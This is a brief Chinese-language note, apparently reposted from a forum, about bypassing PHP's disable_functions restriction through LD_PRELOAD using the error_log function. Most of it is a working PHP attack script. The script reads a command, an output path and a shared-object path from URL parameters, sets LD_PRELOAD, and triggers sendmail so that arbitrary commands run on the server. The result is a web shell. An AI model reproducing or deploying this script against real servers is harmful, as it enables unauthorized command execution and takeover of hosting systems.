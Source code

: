 # error_log

> 原文：[https://www.zhihuifly.com/t/topic/3464](https://www.zhihuifly.com/t/topic/3464)

## error_log

> https://github.com/ianxtianxt/bypass_disablefunc_via_LD_PRELOAD/blob/master/bypass_disablefunc.php

将mail例子中的mail("", "", "", "");替换为error_log("a",1);

```
<?php
    echo "<p> <b>example</b>: http://www.0-sec.org/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";

```
$cmd = $_GET["cmd"];
$out_path = $_GET["outpath"];
$evil_cmdline = $cmd . " &gt; " . $out_path . " 2&gt;&amp;1";
echo "&lt;p&gt; &lt;b&gt;cmdline&lt;/b&gt;: " . $evil_cmdline . "&lt;/p&gt;";

putenv("EVIL_CMDLINE=" . $evil_cmdline);

$so_path = $_GET["sopath"];
putenv("LD_PRELOAD=" . $so_path);

error_log("a",1);

echo "&lt;p&gt; &lt;b&gt;output&lt;/b&gt;: &lt;br /&gt;" . nl2br(file_get_contents($out_path)) . "&lt;/p&gt;"; 

unlink($out_path); 
``` `?>` 
```